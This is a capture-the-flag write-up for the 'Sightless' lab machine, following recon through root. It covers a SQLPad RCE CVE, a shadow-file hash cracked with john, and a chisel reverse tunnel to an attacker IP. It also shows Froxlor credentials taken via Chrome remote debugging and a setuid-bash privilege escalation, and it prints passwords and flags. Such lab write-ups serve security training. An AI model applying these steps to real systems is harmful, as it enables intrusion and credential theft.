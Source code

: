 ```yaml
---
sticker: lucide//eye-off
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | FTP     |
| 22   | SSH     |
| 80   |         |

Let's start with reconnaissance.

# RECONNAISSANCE
---

![](../images/Pasted%20image%2020250107170937.png)

`echo "10.10.11.32 sightless.htb" | sudo tee -a /etc/hosts 2>/dev/null`

![](../images/Pasted%20image%2020250107171213.png)

Now we can access the website, we have a `home`, `about`, `services` and a `contact us` part, if we go to the service part, we can see the following:

![](../images/Pasted%20image%2020250107171349.png)

We got a `sqlpad` service, if we click start now, we are redirected to `sqlpad.sightless.htb`, let's add this subdomain to `/etc/hosts` too:

![](../images/Pasted%20image%2020250107171612.png)

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![](../images/Pasted%20image%2020250107172243.png)

Let's check the web and see if there's anything related to this version:

![](../images/Pasted%20image%2020250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![](../images/Pasted%20image%2020250107182931.png)


# EXPLOITATION
---

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![](../images/Pasted%20image%2020250107172243.png)

Let's check the web and see if there's anything related to this version:

![](../images/Pasted%20image%2020250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![](../images/Pasted%20image%2020250107182931.png)

Let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize the shell]], we would think that we already beat the machine since we got root access but no, we are inside of a docker container, we need some sort of way to get into the real machine, that's when we find 2 users, Michael and node:

![](../images/Pasted%20image%2020250107183525.png)

![](../images/Pasted%20image%2020250107183536.png)


Since we already have root access in the docker container, let's read `/etc/shadow` and get the hash for michael user:

![](../images/Pasted%20image%2020250107183633.png)

```ad-note
Michael hash is: 

`$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/`

----
We need to crack this hash using john, let's do it:

`john hash -w=/usr/share/wordlist/rockyou.txt`

----
This will output: `insaneclownposse`


Let's log into ssh using those credentials:


`michael`:`insaneclownposse`
```



![](../images/Pasted%20image%2020250107184751.png)

Now we are inside of michael's account, we can read the user flag now:

```ad-note
![](../images/Pasted%20image%2020250107184841.png)
user flag: `fa24b7668682e82a648c821ccf0d9526`
```

# Privilege escalation
---

Let's proceed with privesc.

We'll be using linpeas to show use some possible PE vectors:

![](../images/Pasted%20image%2020250107185646.png)

There is a weird connection made to the port `8080`, we need to investigate this, for this, we will use chisel as we need to resend the traffic back to our local machine:

```ad-hint

##### Doing a reverse proxy
---
1. `chisel server -p 9999 --reverse`
2. `chmod +x chisel`
3. `./chisel client 10.10.15.36:9999 R:8080:127.0.0.1:8080`

![](../images/Pasted%20image%2020250107192250.png)
![](../images/Pasted%20image%2020250107192300.png)

```

Now, let's visit the page:

![](../images/Pasted%20image%2020250107192343.png)

It's executing froxlor, in order to get the credentials, we'll be using the following exploit: [exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/), this is basically a chrome remote debugger pentest, since the machine is running chrome actively, we can use this to exploit and access the credentials, once we've reproduce all the steps accordingly to the notes, we get the following credentials:

```ad-note

`admin`:`ForlorfroxAdmin`

```


Let's log into the panel:

![](../images/Pasted%20image%2020250107193550.png)

We got access to the panel, as seen, we have a php section, this has the following:

![](../images/Pasted%20image%2020250107193639.png)

We got `php-fpm`, we are able to execute php code, we can do the following:

```ad-note
1. Create new PHP version
2. `chmod 4777 /bin/bash`
3. Go to `/system/settings/php-fpm`, disable it and enable it again
4. Go to our terminal and perform `/bin/bash -p`
5. Get root shell
```


```ad-important
If we did all correctly, we are able to get root access:

![](../images/Pasted%20image%2020250107194238.png)

This is the root flag:

![](../images/Pasted%20image%2020250107194255.png)

Root: `1c4c6860beaa42a5b9b8e404fbcbf656`


```
